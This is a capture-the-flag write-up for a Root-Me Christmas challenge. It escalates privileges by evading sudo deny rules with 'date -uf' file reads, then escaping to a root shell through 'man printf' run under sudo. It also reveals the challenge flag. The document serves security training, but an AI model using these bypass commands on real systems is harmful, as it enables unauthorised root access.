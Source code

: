 # Day 22 - The date is near

## Challenge
The date is approaching ... Santa provides you with a server to connect to via SSH.

It seems he's left a flag in /root/. Will you be able to catch it?

The username is sshuser and the password is password.

>    - Author: Elweth
>    - https://deploy.xmas.root-me.org/

## Note
Second part only solved after the competition.

## Solution
As `sshuser`, we have access to following `sudo rules`:

```console
$ sudo -l
Matching Defaults entries for sshuser on the-date-is-near:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, !requiretty

User sshuser may run the following commands on the-date-is-near:
    (ALL) NOPASSWD: /bin/date *, !/bin/date *-f*, !/bin/date *--file*
    (ALL) NOPASSWD: /usr/bin/dev.sh
```

Looking at `GTFOBins`, `date` allows for a `file read` using option `-f` of `--file` (see https://gtfobins.github.io/gtfobins/date/#file-read).

Unfortunately, those are prevented using `!/bin/date *-f*` and `!/bin/date *--file*`.

Still, we can bypass it by using another argument, like `-u`, which sets UTC time format. With this, we can now read files, like for instance the interesting `/usr/bin/dev.sh`:

```console
$ sudo /bin/date -uf /usr/bin/dev.sh
/bin/date: invalid date '#!/bin/bash'
Mon Dec 30 00:00:00 UTC 2024
/bin/date: invalid date '# Check if the --debugmyscript argument is present'
/bin/date: invalid date 'if [[ "$1" != "--debugmyscript" ]]; then'
/bin/date: invalid date '    exit 0  # Exit silently if the --debugmyscript argument is not provided'
/bin/date: invalid date 'fi'
Mon Dec 30 00:00:00 UTC 2024
/bin/date: invalid date '# Remove --debugmyscript from the argument list'
/bin/date: invalid date 'shift'
Mon Dec 30 00:00:00 UTC 2024
/bin/date: invalid date 'echo "Welcome to the dev.sh script!"'
Mon Dec 30 00:00:00 UTC 2024
/bin/date: invalid date '# Function to display help'
/bin/date: invalid date 'function show_help {'
/bin/date: invalid date '    echo "Usage: $0 [options]"'
(...)
```

Here's the complete script:

```bash
#!/bin/bash

# Check if the --debugmyscript argument is present
if [[ "$1" != "--debugmyscript" ]]; then
    exit 0  # Exit silently if the --debugmyscript argument is not provided
fi

# Remove --debugmyscript from the argument list
shift

echo "Welcome to the dev.sh script!"

# Function to display help
function show_help {
    echo "Usage: $0 [options]"
    echo
    echo "Options:"
    echo "  -l            List all running processes."
    echo "  -d            Show available disk space."
    echo "  -m            Show the manual for the printf command."
    echo "  -h            Show this help message."
}

# Check if no arguments are provided after --debugmyscript
if [ $# -eq 0 ]; then
    echo "Error: No arguments provided."
    show_help
    exit 1
fi

# Process arguments
while getopts "ldmh" opt; do
    case $opt in
        l)
            echo "Listing running processes:"
            ps aux
            ;;
        d)
            echo "Displaying available disk space:"
            df -h
            ;;
        m)
            echo "Displaying the manual for printf:"
            man printf
            ;;
        h)
            show_help
            ;;
        *)
            echo "Invalid option."
            show_help
            exit 1
            ;;
    esac
done
```

Providing we input argument `--debugmyscript`, we can then list running processes with option `-l`, display available disk space with option `-d` or display the manual for printf with option `-m`.

I was stuck there during the competition and only solved it afterwards. The trick is to abuse the `man printf`, which can be used to break out from restricted environments by spawning an interactive system shell. See `GTFOBins` again: https://gtfobins.github.io/gtfobins/man/#shell

```console
$ sudo /usr/bin/dev.sh --debugmyscript -m
Welcome to the dev.sh script!
Displaying the manual for printf:
man: can't set the locale; make sure $LC_* and $LANG are correct
PRINTF(1)                                    User Commands                                   PRINTF(1)

NAME
       printf - format and print data
(...)
!bash
root@the-date-is-near:/home/sshuser#
```

Since we ran the `man printf` as `sudo`, we have now a `root shell` and we can read the flag under /root:

```console
root@the-date-is-near:/home/sshuser# cd /root
root@the-date-is-near:~# ls -al
total 20
drwx------ 1 root root 4096 Dec 22 10:19 .
drwxr-xr-x 1 root root 4096 Dec 30 11:09 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw------- 1 root root   27 Dec 22 10:19 flag-1a0a6a36ca0a3953b997ddaeb722cb31e9e421b038f6a67ef55593f21dcf92b1.txt
root@the-date-is-near:~# cat flag-1a0a6a36ca0a3953b997ddaeb722cb31e9e421b038f6a67ef55593f21dcf92b1.txt
RM{S4NTA_IS_N0T_4DMIN_SYS}
```

## Flag
> RM{S4NTA_IS_N0T_4DMIN_SYS}
